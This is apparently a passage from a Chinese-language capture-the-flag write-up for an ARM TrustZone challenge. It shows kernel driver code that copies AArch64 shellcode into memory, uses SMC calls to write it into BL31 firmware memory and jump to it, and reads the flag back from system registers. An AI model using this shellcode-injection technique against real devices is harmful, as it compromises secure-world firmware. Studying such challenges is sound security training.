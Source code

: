```c

    // 单独写一个c文件，用内联汇编生成二进制文件后用IDA提取出来
    unsigned char shellcode[] = {
        0xA0, 0x47, 0xA8, 0xF2, 0x00, 0x20, 0x98, 0xF2, 0x01, 0xFC,
        0x3B, 0xD5, 0x01, 0x00, 0x00, 0xB9, 0x21, 0xFC, 0x3B, 0xD5,
        0x01, 0x04, 0x00, 0xB9, 0x41, 0xFC, 0x3B, 0xD5, 0x01, 0x08,
        0x00, 0xB9, 0x61, 0xFC, 0x3B, 0xD5, 0x01, 0x0C, 0x00, 0xB9,
        0x81, 0xFC, 0x3B, 0xD5, 0x01, 0x10, 0x00, 0xB9, 0xA1, 0xFC,
        0x3B, 0xD5, 0x01, 0x14, 0x00, 0xB9, 0xC1, 0xFC, 0x3B, 0xD5,
        0x01, 0x18, 0x00, 0xB9, 0xE1, 0xFC, 0x3B, 0xD5, 0x01, 0x1C,
        0x00, 0xB9, 0xC0, 0x03, 0x5F, 0xD6
    };
    /*
        "MOVK X0, #0x423d, LSL #16\n" // 把flag存到0x423dc000+0x100
        "MOVK X0, #0xc100\n"
        "STR W1, [X0]\n"
        "MRS X1, S3_3_C15_C12_1\n"
        "STR W1, [X0,#4]\n"
        "MRS X1, S3_3_C15_C12_2\n"
        "STR W1, [X0,#8]\n"
        "MRS X1, S3_3_C15_C12_3\n"
        "STR W1, [X0,#0xC]\n"
        "MRS X1, S3_3_C15_C12_4\n"
        "STR W1, [X0,#0x10]\n"
        "MRS X1, S3_3_C15_C12_5\n"
        "STR W1, [X0,#0x14]\n"
        "MRS X1, S3_3_C15_C12_6\n"
        "STR W1, [X0,#0x18]\n"
        "MRS X1, S3_3_C15_C12_7\n"
        "STR W1, [X0,#0x1C]\n"
        "ret\n"
    */
    memcpy((uint8_t *)ns_mem, shellcode, sizeof(shellcode));
    arm_smccc_smc(LOG_SVC_ABWR, SC_RW_ADDR, BL31_NS_MEM, sizeof(shellcode), 0, 0, 0, 0, &res); // 写入shellcode
    arm_smccc_smc(LOG_SVC_SC, 0, 0, 0, 0, 0, 0, 0, &res); // 跳转到shellcode执行
    pr_info("flag: %s\n", ((uint8_t *)ns_mem)+0x100); // 从0x423dc000+0x100读flag

    return 0;
}
```



# 完整Exp

## Driver

smc_driver.c
